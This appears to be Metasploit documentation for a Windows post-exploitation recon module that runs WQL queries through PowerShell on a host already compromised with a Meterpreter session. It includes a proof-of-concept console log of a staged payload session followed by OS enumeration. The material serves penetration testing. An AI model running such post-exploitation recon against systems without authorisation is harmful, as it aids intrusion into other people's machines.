 ## Introduction

This module will execute a WQL query via Powershell's `Get-WmiObject`. A WQL query can be
explicity defined with the WQL and NAMESPACE options, or a hard-coded query can be used by
defining a corresponding ACTION option.

The following ACTIONs are available:

OSVERSION - Returns information about the operating system,
PROCESSINFO - Returns running processes,
RAW_QUERY - Run a raw WQL query

## Vulnerable Application

  This should work on version of Windows with Powershell that support `Get-WmiObject`.

## Verification Steps

  1. Start `msfconsole`
  2. Get Meterpreter session
  3. `use post/windows/recon/wql_query`
  4. `run`
  5. **Verify** that operating system version info is returned
  6. `set ACTION "RAW_QUERY"`
  7. `set WQL select * from win32_operatingsystem`
  8. `run`
  9. **Verify** that more complete data comes back

## Options

  **ACTION**

  This is any of the predefined actions that are pre-baked in, or use with WQL to run a raw query.

  **NAMESPACE**

  This will set the namespace to run any arbitrary WQL against.

  **WQL**

  An arbitrary WQL statement to run on the system.

## Proof of Concept

```

msf5 exploit(multi/handler) >
[*] https://192.168.170.1:8443 handling request from 192.168.170.128; (UUID: w43pepbp) Staging x86 payload (181337 bytes) ...
[*] Meterpreter session 1 opened (192.168.170.1:8443 -> 192.168.170.128:50319) at 2019-09-11 19:01:40 -0500
msf5 exploit(multi/handler) > use post/windows/recon/wql_query
msf5 post(windows/recon/wql_query) > show options

Module options (post/windows/recon/wql_query):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ACTION     OSVERSION        no        OSVERSION, PROCESSINFO, or RAW_QUERY
   NAMESPACE                   no        Namespace to run the WQL query against
   RHOST      localhost        yes       Target address range
   SESSION                     yes       The session to run this module on.
   SMBDomain                   no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   TIMEOUT    10               yes       Timeout for WMI command in seconds
   WQL                         no        WQL query to run

msf5 post(windows/recon/wql_query) > set session 1
session => 1
msf5 post(windows/recon/wql_query) > run

[*] Executing WQL
[*] WQL result:

Version    BuildNumber
-------    -----------
10.0.17763 17763



[*] Post module execution completed
msf5 post(windows/recon/wql_query) > set ACTION "RAW_QUERY"
ACTION =>
msf5 post(windows/recon/wql_query) > set WQL select * from win32_operatingsystem
WQL => select * from win32_operatingsystem
msf5 post(windows/recon/wql_query) > run

[*] Executing WQL
[*] WQL result:


SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 17763
RegisteredUser  : chiggins
SerialNumber    : XXXXX-XXXXX-XXXXX-XXXXX
Version         : 10.0.17763

[*] Post module execution completed
```

